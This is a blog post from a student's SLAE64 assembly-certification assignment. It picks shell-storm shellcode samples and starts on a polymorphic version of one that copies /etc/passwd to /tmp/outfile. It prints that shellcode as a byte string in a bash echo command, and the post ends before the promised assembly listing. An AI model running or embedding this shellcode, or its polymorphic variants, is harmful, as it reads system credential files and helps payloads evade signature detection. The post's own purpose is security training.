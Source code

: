 Title: SLAE64 - Assignment 6.3
Date: 2022-07-02T15:19:53.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

[https://www.pentesteracademy.com/course?id=7](https://www.pentesteracademy.com/course?id=7)

Student ID: PA-30398

## Foreword

I chose the following shellcode samples:

<ol><li>[Read /etc/passwd - 82 bytes](https://shell-storm.org/shellcode/files/shellcode-878.php)
- [Add map in /etc/hosts file - 110 bytes](https://shell-storm.org/shellcode/files/shellcode-896.php)
- [Reads data from /etc/passwd to /tmp/outfile - 118 bytes](https://shell-storm.org/shellcode/files/shellcode-867.php)

In this part I'll create a polymorphic shellcode based on the third one.

## Source code

The files for this part of the assignment are the following:

- [original.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae64/assignment/6/3/original.nasm), the original shellcode
- [polymorphic.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae64/assignment/6/3/polymorphic.nasm) which is the polymorphic version I've written

## Analysis

Note that the shellcode present in the Cgcode from the third link is wrong. In fact, it misses some bytes.

For this reason, I had to copy the assembly instructions and assemble them manually in order to obtain the shellcode bytes.

```bash
echo -ne "\x48\x31\xc0\xb0\x02\x48\x31\xff\xbb\x73\x77\x64\x00\x53\x48\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x8d\x3c\x24\x48\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89\xe6\x66\xba\xff\xff\x0f\x05\x49\x89\xc0\x48\x89\xe0\x48\x31\xdb\x53\xbb\x66\x69\x6c\x65\x53\x48\xbb\x2f\x74\x6d\x70\x2f\x6f\x75\x74\x53\x48\x89\xc3\x48\x31\xc0\xb0\x02\x48\x8d\x3c\x24\x48\x31\xf6\x6a\x66\x66\x5e\x0f\x05\x48\x89\xc7\x48\x31\xc0\xb0\x01\x48\x8d\x33\x48\x31\xd2\x4c\x89\xc2\x0f\x05" > shellcode.bin
```

<figcaption class="figure-caption">Shellcode bytes</figcaption>

Follows the assembly instructions that make up the shellcode, plus some comments that describe its logic:
